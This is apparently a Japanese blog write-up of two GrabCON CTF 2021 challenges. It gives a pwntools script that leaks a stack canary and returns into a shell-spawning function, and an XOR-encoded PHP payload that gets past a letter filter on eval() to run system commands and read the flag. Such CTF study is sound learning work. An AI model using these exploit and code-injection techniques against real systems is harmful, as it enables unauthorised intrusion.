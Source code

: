 ```yaml
---
title: "GrabCON CTF 2021 Writeup"
date: 2021-09-05T20:00:00+09:00
lastmod: 2021-09-05T20:00:00+09:00
draft: false
keywords: []
description: ""
tags: ["CTF"]
categories: ["CTF"]
author: ""
---
```

<img src="https://captureamerica.github.io/writeups/img/green_bar.png" alt="green_bar.png">
<img src="https://captureamerica.github.io/writeups/img/10_Nature_Themed_Icons_Cute_Earth_Icon.png" alt="Save The Earth!"> <b><font color="teal">Save The Earth! - 地球環境を守ろう！</font></b> <img src="https://captureamerica.github.io/writeups/img/10_Nature_Themed_Icons_Cute_Earth_Icon.png" alt="Save The Earth!">
<img src="https://captureamerica.github.io/writeups/img/green_bar.png" alt="green_bar.png">

{{% right %}}
<a href="https://translate.google.com/translate?hl=en&sl=ja&tl=en&u=https%3A%2F%2Fcaptureamerica.github.io%2Fwriteups%2Fpost%2Fcybrics_ctf_2021%2F">
<img src="https://captureamerica.github.io/writeups/img/En.png" alt="English">
</a>
{{% /right %}}

URL: [https://ctf.thecybergrabs.org/](https://ctf.thecybergrabs.org/)
<br /><br />
結構、Server Errorが出てましたね。。

<br />

750点を獲得し、174位でした。

<br>

<img src="https://captureamerica.github.io/writeups/img/grabcon_CTF_2021_Score1.png" alt="grabcon_CTF_2021_Score1.png">

<br>

<img src="https://captureamerica.github.io/writeups/img/grabcon_CTF_2021_Score2.png" alt="grabcon_CTF_2021_Score2.png">


<br><br>
チャレンジのリスト。

<img src="https://captureamerica.github.io/writeups/img/grabcon_CTF_2021_chall1.png" alt="grabcon_CTF_2021_chall1.png">

<br>

<img src="https://captureamerica.github.io/writeups/img/grabcon_CTF_2021_chall2.png" alt="grabcon_CTF_2021_chall2.png">

<br>

<img src="https://captureamerica.github.io/writeups/img/grabcon_CTF_2021_chall3.png" alt="grabcon_CTF_2021_chall3.png">

<br>



<br /><br />
## [Pwn]: Can you? (100 points)
- - -
### Challenge
> Can you?
<br /><br />
nc 35.246.42.94 31337

Attachment:

- cancancan (ELF 32bit)

<br />
### Solution
checksecを確認。
<pre>
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
</pre>

タイトルなどから、Canaryに関連したチャレンジなのがわかります。

<br />
Ghidraでコードを確認します。

{{< highlight powershell "linenos=table,hl_lines=27 28" >}}
undefined4 main(void)

{
  init((EVP_PKEY_CTX *)&stack0x00000004);
  puts("can you bypass me???");
  vuln();
  return 0;
}


void vuln(void)

{
  int in_GS_OFFSET;
  char *__buf;
  undefined4 uVar1;
  undefined4 uVar2;
  int local_78;
  char local_74 [100];
  int local_10;
  
  uVar2 = 0x80492d6;
  local_10 = *(int *)(in_GS_OFFSET + 0x14);
  for (local_78 = 0; local_78 < 2; local_78 = local_78 + 1) {
    uVar1 = 0x200;
    __buf = local_74;
    read(0,__buf,0x200);
    printf(local_74,__buf,uVar1,uVar2);
  }
  if (local_10 != *(int *)(in_GS_OFFSET + 0x14)) {
    __stack_chk_fail_local();
  }
  return;
}


void win(void)

{
  system("/bin/sh");
  return;
}

{{< / highlight >}}

<br />
Buffer Overflow と、Format String Bug (書式文字列攻撃) の両方の脆弱性がありますね。

<br />
"ctf 32bit canary fsb leak" でググったら、以下のWikiでほぼそのまんまの内容が見つかりました。

[https://wiki.vaala.cloud/pwn/linux/mitigation/canary/#canary-leaks-canary](https://wiki.vaala.cloud/pwn/linux/mitigation/canary/#canary-leaks-canary)

<br />

書いたコード（ほぼ流用）

```Python
#!/usr/bin/env python
from pwn import *
context.binary = 'cancancan'

s = remote('35.246.42.94', 31337)

# Leak Canary
s.recvuntil("can you bypass me???")
payload = "A" * 100
s.sendline(payload)
s.recvuntil ("A" * 100)
Canary = u32(s.recv(4))-0xa
log.info("Canary:"+hex(Canary))

# Bypass Canary
addr_win = ELF("./cancancan").sym["win"]
payload = b"A" * 100 + p32(Canary) + b"A" * 12 + p32(addr_win)
s.send(payload)
s.interactive ()

```

<br />
Wikiではあんまり説明がなかったので補足すると、pwntoolsのsendlineは最後に改行 ("\n") が入るので101バイトが書き込まれ、("\n") で Canary の "\x00" 部分が上書きされます。

これによって、printfの結果がもともと"\x00"で止まるはずだったのが、Canaryを含めて出力されます。

("\n")は "\x0a" なので、-0xa をしています。0xFFFFFF00 でゼロクリアでも同じ結果になるはず。


<br />
Flag: `GrabCON{Byp4ss_can4ry_1s_fun!}`



<br /><br />
<br /><br />
## [Web]: Basic Calc (150 points)
- - -
### Challenge
> Ever used calc based on php?
<br /><br />
Link

<br />
### Solution
ウェブサイトにアクセスすると、計算用のフォームと、PHPコードが表示されます。

PHPのコード部分は以下でした。
```php
<?php

if (isset($_POST["eq"])){
    
    $eq = $_POST["eq"];

    if(preg_match("/[A-Za-z`]+/",$eq)){
        die("BAD.");
    }
    echo "Result: ";
    eval("echo " . $eq . " ;");
}else{
  echo highlight_file('index.php',true);  
}

?>
```
<br />
アルファベットを使わずにコマンドを入力しeval()に渡す、ということをしないといけません。

<br />
これも、ググって調べると、どうやら Root-Me の「PHP Eval」という問題と同じみたいです。

以下の Write Up を参考にさせていただきました。
[https://joshuanatan.medium.com/root-me-web-server-php-eval-f77584cae128](https://joshuanatan.medium.com/root-me-web-server-php-eval-f77584cae128)

<br />
コードは上記の Write Up をそのまま使ったので、ここには載せません。

<br />

system("ls -al")を実行したいとすると、
<pre>
system = ('('^'[').('$'^']').('('^'[').(')'^']').('%'^'@').('-'^'@')
ls -al / = (','^'@').('('^'[').('['^'{').'-'.('!'^'@').(','^'@').('['^'{').'/'
</pre>

<br />

以下をPOSTすることになります。
<pre>
<font color="red">(</font>('('^'[').('$'^']').('('^'[').(')'^']').('%'^'@').('-'^'@')<font color="red">)</font><font color="red">(</font>(','^'@').('('^'[').('['^'{').'-'.('!'^'@').(','^'@').('['^'{').'/'<font color="red">)</font>
</pre>
このようにカッコ（<font color="red">赤い</font>部分）をつけないと、単純にechoでコマンド自体が表示されて、コマンドの結果が得られません。

<br />

`ls -al /` を確認したら、/flagggg.txt があるのがわかります。

ここで、

`cat /flagggg.txt` をやろうとすると、以下のようにエラーになってしまいました。

<img src="https://captureamerica.github.io/writeups/img/grabcon_CTF_2021_basic_calc.png" alt="grabcon_CTF_2021_basic_calc.png">

<br />

`cat /*.txt` にて、フラグを得ることができました。

<br />

Flag: GrabCON{b4by_php_f0r_y0u}


<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />
